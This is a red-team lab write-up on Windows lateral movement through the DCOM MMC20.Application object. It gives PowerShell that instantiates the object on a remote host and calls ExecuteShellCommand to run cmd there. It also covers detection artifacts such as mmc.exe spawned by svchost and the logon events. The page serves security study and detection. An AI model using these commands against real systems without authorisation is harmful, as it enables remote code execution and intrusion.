 ```yaml
---
layout: post
title: "t1175 distributed component object model"
date: 2024-06-18
categories: all_md_files
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /t1175-distributed-component-object-model/
---
```


---
layout: post
title: "t1175 distributed component object model"
date: 2024-06-18
categories: lateral-movement
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /t1175-distributed-component-object-model/
---

---
description: Lateral Movement via Distributed Component Object Model
---

# Lateral Movement via DCOM

> The Microsoft Component Object Model (COM) is a platform-independent, distributed, object-oriented system for creating binary software components that can interact. COM is the foundation technology for Microsoft's OLE (compound documents), ActiveX (Internet-enabled components), as well as others.
>
> [https://docs.microsoft.com/en-us/windows/desktop/com/the-component-object-model](https://docs.microsoft.com/en-us/windows/desktop/com/the-component-object-model)

This lab explores a DCOM lateral movement technique using MMC20.Application COM as originally researched by @enigma0x3 in his blog post [Lateral Movement using the mmc20.application Com Object](https://enigma0x3.net/2017/09/11/lateral-movement-using-excel-application-and-dcom/)

## Execution

MMC20.Application COM class is stored in the registry as shown below:

![](../../.gitbook/assets/dcom-registry.png)

Same can be achieved with powershell:

```csharp
Get-ChildItem 'registry::HKEY_CLASSES_ROOT\WOW6432Node\CLSID\{49B2791A-B1AE-4C90-9B8E-E860BA07F889}'
```

![](../../.gitbook/assets/dcom-registry2.png)

Establishing a connection to the victim host:

{% code title="attacker@victim" %}
```csharp
$a = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","10.0.0.2"))
```
{% endcode %}

Executing command on the victim system via DCOM object:

{% code title="attacker@victim" %}
```csharp
$a.Document.ActiveView.ExecuteShellCommand("cmd",$null,"/c hostname > c:\fromdcom.txt","7")
```
{% endcode %}

Below shows the command execution and the result of it - remote machine's `hostname` command output is written to `c:\fromdcom.txt`:

![](<../../.gitbook/assets/dcom-rce (1).png>)

## Observations

Once the connection from an attacker to victim is established using the below powershell:

```csharp
[System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","10.0.0.2"))
```

This is what happens on the victim system - `svchost` spawns `mmc.exe` which opens a listening port via RPC binding:

![](../../.gitbook/assets/dcom-mmc-bind.png)

![](../../.gitbook/assets/dcom-listening.png)

![](../../.gitbook/assets/dcom-ancestry+connections.png)

A network connection is logged from 10.0.0.7 (attacker) to 10.0.0.2 (victim) via `offense\administrator` (can be also seen from the above screenshot):

![](../../.gitbook/assets/dcom-logon-event.png)

![](../../.gitbook/assets/dcom-connection2.png)

## References

{% embed url="https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/" %}

{% embed url="https://docs.microsoft.com/en-us/previous-versions/windows/desktop/mmc/view-executeshellcommand" %}

{% embed url="https://docs.microsoft.com/en-us/dotnet/api/system.type.gettypefromclsid?view=netframework-4.7.2#System_Type_GetTypeFromCLSID_System_Guid_System_String_" %}

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/com/com-technical-overview" %}

{% embed url="https://attack.mitre.org/wiki/Technique/T1175" %}
@spotheplanet
